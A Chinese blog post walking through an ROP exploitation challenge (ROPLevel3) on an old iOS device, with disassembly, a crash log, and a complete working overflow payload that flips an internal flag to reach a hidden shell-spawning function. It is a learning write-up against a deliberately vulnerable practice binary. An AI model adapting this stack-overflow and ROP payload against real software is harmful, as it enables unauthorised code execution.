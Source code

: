 ```yaml
---
layout: post
title: ROP Exploit实验 2
slug: ROP Exploit实验 2
category: iOS Exploitation
published: true
---
```



### 前言

本实验较上一篇，漏洞利用的根本原理没变，只是流程复杂了点。本实验使用的是一个不开源的程序，可以在[这里下载](https://github.com/Billy-Ellis/Exploit-Challenges/blob/master/ROPLevel3.zip)。环境依然是iOS 7.0.1的iPhone4。


### 窥探程序

先直接运行下这个程序看下它做了些什么:

```
Jins:~/Code root# ./roplevel3
Welcome to ROPLevel3 by @bellis1000

0Select an option:
[1] Function
[2] Function (internal)
[3] Exit
1

Hello world! Welcome to a function - an function that does absolutely nothing!

Select an option:
[1] Function
[2] Function (internal)
[3] Exit
2

You do not have permission to launch this function.

Select an option:
[1] Function
[2] Function (internal)
[3] Exit
3
Jins:~/Code root#
```

程序有三个选项，1只是输出一句欢迎语，2是一个内部功能`(internal)`，选择后告诉我没有权限执行这个函数。我们的目的就是要使用这个"需要权限"的函数。


没有源码那我们打开**Hopper**载入这个程序看下。

载入完成选择CFG MODE(Control Flow Graphic)看下流程图。程序整体是由一个`while`循环控制着输入输出。
左下角有这么一块：
![IMG](https://ws1.sinaimg.cn/large/006tKfTcly1fmwia9n6y0j30xc0bcacq.jpg)

这里有调用`scanf`函数，下面还有一句`bl  _validate`，应该是一个校验函数，双击进入这段函数的执行流程。我截取了主要的一块：

![IMG](https://ws4.sinaimg.cn/large/006tKfTcly1fmwijyxd0vj30y00qo0xd.jpg)

主要流程就是比较输入的字符串，`loc_bc4c`这块会和字符串2比较，如果相等，则会把`0xc030`和`0xbf2d`的值作比较，双击这两个地址可以看到存储的值都是0。`0xc030 `地址保存的是一个常量名为`_internal_mode`，程序执行时是会打印这个值的：

```
Jins:~/Code root# ./roplevel3
Welcome to ROPLevel3 by @bellis1000

0Select an option:
...

```

`Select an option:`前面有个0。`_internal_mode`和0比较结果相等后就会打印**You do not have permission to launch this function.**

有种方法就是直接修改程序，将`_internal_mode`的值改成非0，但这不是本文的目的，我们的目的是要在运行时修改掉其中一个值，来绕过字符串的判断。

在左边栏的函数中我们还可以看到这个程序的作者准备了两个必须的工具函数：`gadget`和`write_anywhere`。这两个函数的指令如下:

![IMG](https://ws2.sinaimg.cn/large/006tKfTcly1fmwjxonkpyj30w00eign8.jpg)

### 思路

程序已经大致了解了一遍，`scanf`函数仍然是我们用来构造栈溢出的函数。假设我们想在运行时修改`_internal_mode`的值，如何修改，`write_anywhere`似乎能帮上忙，它有一行代码可以对`r1`地址的值进行赋值：

```
0000bce0         str        r0, [r1]
```
那么`r0`和`r1`的值如何被赋予我们想要的内容。巧了么这不是，`gadget`函数就能做到:

```
0000bcec         pop        {r0, r1, pc}
```

有了这些条件，我们先理一下期望的执行流程：输入字符串后，执行`gadget`函数，将栈上三个4字节的数据分别弹入`r0 r1 pc`，然后再调用`write_anywhere`函数，将`r0`的值赋给`r1`保存的地址中的值。
最后我们还需要回到`main`函数，因为之前的步骤只是修改了某个值，最后我们只有输入2后才会进入内部函数。

所以最终的字符串样式应该是: **任意字符串+gadget地址+非零值+internal_mode地址+write_anywhere地址+任意字符串+main函数地址**

### Exploit

好，开始构造我们的字符串。
第一个步骤还是一样的，输入一个固定格式的字符串，看看崩溃日志该从哪里下手。

```
Welcome to ROPLevel3 by @bellis1000

0Select an option:
[1] Function
[2] Function (internal)
[3] Exit
AAAABBBBCCCCDDDDEEEEFFFFGGGG

Invalid choice.

Segmentation fault: 11

...
...

Unknown thread crashed with ARM Thread State (32-bit):
    r0: 0x00000000    r1: 0x00000400      r2: 0x00000500      r3: 0x00002860
    r4: 0x00000000    r5: 0x00000000      r6: 0x00000000      r7: 0x45454545
    r8: 0x27dff8a0    r9: 0x00000001     r10: 0x00000000     r11: 0x00000000
    ip: 0x3d834c98    sp: 0x27dff8a0      lr: 0x0000bcc8      pc: 0x46464644
  cpsr: 0x20000010

```
`PC`的值被改成了`FFFF`。

几个关键函数的地址你可以在Hopper里看到这些函数地址，也可以通过GDB来查看。

```
(gdb) disas gadget
Dump of assembler code for function gadget:
0x0000bcec <gadget+0>:  03 80 bd e8                   pop	{r0, r1, pc}
0x0000bcf0 <gadget+4>:  1e ff 2f e1                   bx	lr
End of assembler dump.
(gdb) disas write_anywhere
Dump of assembler code for function write_anywhere:
0x0000bcdc <write_anywhere+0>:  05 60 a0 e1                   mov	r6, r5
0x0000bce0 <write_anywhere+4>:  00 00 81 e5                   str	r0, [r1]
0x0000bce4 <write_anywhere+8>:  80 80 bd e8                   pop	{r7, pc}
0x0000bce8 <write_anywhere+12>:  1e ff 2f e1                   bx	lr
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
0x0000bcf4 <main+0>:  80 40 2d e9                   push	{r7, lr}
```

注意`write_anywhere `函数中的第一条指令是我们用不到的，所以第二条指令地址才用于我们的字符串。

最终字符串就应该是:

```
AAAABBBBCCCCDDDDEEEE\xec\xbc\x00\x00AAAA\x30\xc0\x00\x00\xe0\xbc\x00\x00AAAA\xf4\xbc\x00\x00
```

将它灌入程序试下先：

```
Jins:~/Code root# printf "AAAABBBBCCCCDDDDEEEE\xec\xbc\x00\x00AAAA\x30\xc0\x00\x00\xe0\xbc\x00\x00AAAA\xf4\xbc\x00\x00" | ./roplevel3

```
程序貌似进入死循环了，一直在输出相同的内容：

```
Select an option:
[1] Function
[2] Function (internal)
[3] Exit

Invalid choice.

Select an option:
[1] Function
[2] Function (internal)
[3] Exit

Invalid choice.

...
...

```

这里需要用到一个小技巧，使用`cat`命令后面不带参数，来中断输入，并等待用户输入。

```
Jins:~/Code root# (printf "AAAABBBBCCCCDDDDEEEE\xec\xbc\x00\x00AAAA\x30\xc0\x00\x00\xe0\xbc\x00\x00AAAA\xf4\xbc\x00\x00"; cat) | ./roplevel3
Welcome to ROPLevel3 by @bellis1000

0Select an option:
[1] Function
[2] Function (internal)
[3] Exit
1

Invalid choice.

Welcome to ROPLevel3 by @bellis1000

AAAASelect an option:
[1] Function
[2] Function (internal)
[3] Exit

```

可以看到已经`internal_mode`变成AAAA了，我们选择2试试：

```
2

Welcome to a more interesting function with developer-only functionality ;P
What would you like to do?
[1] Touch a file
[2] Spawn a shell
[3] Quit function

```
进入内部的函数了，按1会在`/`下生成一个`created_by_roplevel3`文件，2则可以让你执行shell命令。

![IMG](https://ws2.sinaimg.cn/large/006tKfTcly1fmwmo7ph6zj30we08sq3u.jpg)
`ls`命令执行成功！

### 总结

实验是比较简单的，分享出来，希望能给和我一样的新手一点启发吧。以上。

参考：
[《Beginner’s Guide to Exploitation on ARM》](http://zygosec.com/Products/)  作者：[@bellis1000](https://twitter.com/bellis1000)